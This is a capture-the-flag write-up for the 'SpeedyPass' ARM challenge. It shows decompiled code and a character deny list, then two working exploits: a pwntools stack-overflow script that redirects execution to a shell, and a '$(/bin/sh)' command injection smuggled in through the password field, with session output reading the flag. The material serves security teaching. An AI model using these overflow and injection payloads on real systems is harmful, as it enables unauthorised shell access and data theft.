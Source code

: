 # SpeedyPass

### System (ARM)

SpeedyPass is a simple password strength checking service. The challenge provides the [binary](speedypass_161d3241ce42317cbff2b0db5e89c0bb) for the application. The goal is to get a shell and read the flag.

![speedypass_1](speedypass_1.png)



The challenge was 32-bit ARM binary, so we load it up in IDA Pro.

```c++
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setbuf((FILE *)_bss_start, 0);
  setbuf((FILE *)stdout, 0);
  banner();
  if ( check() )
  {
    puts("Good password!");
    win(1337);
  }
  else
  {
    puts("Bad password!");
  }
  return 0;
}
```

The `main` function looks pretty simple. Once it prints out the banner, the program checks for the password and prints corresponding messages. If a given password was a good password, it also calls `win` function with an argument of `1337`.

```c++
void __fastcall win(int a1)
{
  if ( a1 == 0x13333337 )
    system("/bin/sh");
  else
    puts("But not 1337 enough! :P");
}
```

The `win` function checks if the argument is same as `0x13333337` and if so, drops a shell. However, because the `win` function call from `main` function has `1337` hard-coded, which makes this impossible.

The `check` function prompts for a password and reads in the input. After some validation via `validate` function, the program invokes a command that runs `./checker.py` python script and passes in the password.

```c++
bool check()
{
  char s[64]; // [sp+4h] [bp-50h]
  ssize_t v2; // [sp+4Ch] [bp-8h]
  char v3[4]; // [sp+50h] [bp-4h]

  memset(s, 0, 64u);
  printf("password> ");
  v2 = read(0, s, 0x64u);
  if ( v2 && v3[v2 - 77] == '\n' )
    v3[v2 - 77] = 0;
  if ( tolower((unsigned __int8)s[0]) == 'q' && strlen(s) == 1 )
  {
    puts("Bye!");
    exit(0);
  }
  validate(s);
  snprintf(cmd, 0x800u, "./checker.py \"%s\"", s);
  return (system(cmd) & 0xFF00) >> 8 == 1;
}
```

The `validate` function takes a string and ensures the following:

* The first and last character of the string are alphanumeric.
* Any spaces are removed from the string.
* "Dangerous" characters and strings are blocked.
  * \`, ", \n, \r, |, #, ;, &, flag

The python script checks for certain rules for the password.

```python
#!/usr/bin/env python
import sys
s = sys.argv[1]
# Palindrome check
xc = int(s == s[::-1])
# Length check
xc &= int(len(s) > 8)
# Unique character check
xc &= int(len(set(s)) > 1)
sys.exit(xc)
```



#### Vulnerability #1 (Stack Buffer Overflow)

There is a trivial stack buffer overflow in `check` function. The buffer size is only 64 bytes, but the program reads in 0x64 (100) bytes. By overflowing the buffer and eventually the return address, we can control the `pc`.

If we overwrite the `pc` with the address of the code right before the `system("/bin/sh")`in `win` function, we can get the shell.



![speedypass_2](speedypass_2.png)



```python
#!/usr/bin/env python
from pwn import *
r = remote('speedhack.theori.io', 14729)
r.sendline('A' * 80 + p32(0x106f4))
r.interactive()
```

```
$ cat flag
your_password_is_not_s3cure
```



#### Vulnerability #2 (Command Injection)

Various filtering and validation implies that there was an attempt at preventing command injection. When `./checker.py` is invoked, the argument is user-controllable. We can inject shell commands by using `$()`. By evading all filtered characters and strings, we can get a shell and eventually read the flag.

```
======= Speed Pass =======
 - Type Q to quit...
 - Length > 8
 - Contain >= 2 unique letters
==========================
password> a$(/bin/sh)a
ls >&2
checker.py
flag
run.sh
speedypass

cat flag >&2
your_password_is_not_s3cure
```

